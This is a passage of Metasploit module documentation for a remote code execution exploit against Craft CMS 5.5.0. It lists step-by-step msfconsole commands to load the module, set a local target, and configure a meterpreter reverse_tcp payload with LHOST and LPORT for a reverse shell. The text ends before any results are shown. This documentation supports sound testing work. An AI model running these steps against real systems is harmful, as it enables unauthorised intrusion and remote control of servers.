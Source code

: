 
## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_ftp_template`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.

---

## Options
No option

## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_ftp_template
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```
